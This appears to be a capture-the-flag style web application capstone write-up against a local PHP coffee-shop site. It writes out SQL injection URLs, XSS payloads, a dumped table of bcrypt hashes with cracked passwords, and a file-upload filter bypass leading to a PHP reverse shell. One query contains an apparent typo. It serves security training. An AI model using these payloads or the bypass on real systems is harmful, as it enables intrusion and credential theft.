



# Web Application Capstone

### Enumeration

[Ffuf scan results](./capstone/capstone.ffuf)

**Pages/Directories**

/index.php
/coffee.php
/auth.php
/assets/
/admin/
/admin/admin.php

/assets exposes HTTP server version and OS



Using the cracked admin credentials we can access the admin panel admin.php, where there is a file upload 
functionality

There is a client side extension filter and a server side magic byte filter which can be bypassed by using a 
PNG magic byte and using the .phtml extension

The file is renamed but the extension is not changed allowing us to upload a PHP reverse shell and access it 
with the id.phtml file name format. The last coffe image is 8.png, our test upload is 9.png so the shell is 
10.phtml.

Navigating to http://localhost/capstone/assets/10.phtml executes our reverse shell giving us RCE

**User Sign-up**

test:test
test2:test2
admin:test

On sign-up the message parameter is set to `You successfully signed up` in the URL

message value is reflected back, Refelcted XSS found with `<script>prompt(1)</script> `

**User Login**

On login the message parameter is set to `You successfully logged in` in the URL

**Products**

Viewing the coffee products sends a get request to coffee.php with the coffee parameter, an integer id

/coffee.php?coffee=1

Parameter is vulnerable to SQLi





```
Table: users
[11 entries]
+---------+--------+--------------------------------------------------------------+----------+
| user_id | type   | password                                                     | username |
+---------+--------+--------------------------------------------------------------+----------+
| 1       | admin  | $2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy | jeremy   |
| 2       | admin  | $2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS | jessamy  |
| 3       | admin  | $2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy | raj      |
| 4       | user   | $2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC | bob      |
| 5       | user   | $2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi | maria    |
| 6       | user   | $2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW | amir     |
| 7       | user   | $2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG | xinyi    |
| 8       | user   | $2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3. | kofi     |
| 9       | user   | $2y$10$xFAj5gKskIKUJ5MxsEEqI.v7/eP/sqTipl333WeNKdAjzf5i1hu5O | test     |
| 10      | user   | $2y$10$Sx0lU/c1.7IXdhcseSjWJulsDLnxwpHQGnZtNXNylqw2119Ai8JIu | test2    |
| 11      | user   | $2y$10$OnmxY5jm4SUaNedAl6/5tuXJjPU.ke6L6BQu/3P1T8/iCT1VwIo.O | admin    |
+---------+--------+--------------------------------------------------------------+----------+
```

Hashes cracked (rockyou and xato top 10000):

jeremy -> $2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy:captain1
bob -> $2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC:qwerty
maria -> $2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi:maria
amir -> $2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW:cheesecake
kofi -> $2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3.:paris

Add rating has a comment text box, Stored XSS injection found with `<script>print(1)</script>` and tested 
with firefox containers and 2 different users (test:test and test2:test2)

### Walkthrough

**coffee SQLi**

Missed testing SQLi in the comment post, test all possible vulnerabilities even if previously exploited

Informational issue with processing of coffee id error

SQLi can be triggered manually in the coffee parameter:

`http://localhost/capstone/coffee.php?coffee=1' or 1=1-- -`

Union SQLi with 7 columns

`http://localhost/capstone/coffee.php?coffee=1' union select null,null,null,null,null,null,null-- -`

Use string in place of the null values to find where data can be displayed:

`http://localhost/capstone/coffee.php?coffee=1' union select null,'string','string',null,null,null,null-- -`

Use the string value to extract the table names from information_schema.tables:

`http://localhost/capstone/coffee.php?coffee=1' union select null,TABLE_NAME,'string',null,null,null,null FROM INFORMATION_SCHEMA.TABLES-- -`

Find column names:

`http://localhost/capstone/coffee.php?coffee=1' union select null,COLUMN_NAME,'string',null,null,null,null FROM INFORMATION_SCHEMA.COLUMN-- -`

Extract usernames and passwords:

`http://localhost/capstone/coffee.php?coffee=1' union select null,username,password,null,null,null,null FROM users`

**File Upload**

Basic .php extension can be used, admin panels and internal resources are usually more lax in terms of 
security

**Mitigations**

Use parameterized statements to avoid SQLi vulnerabilities
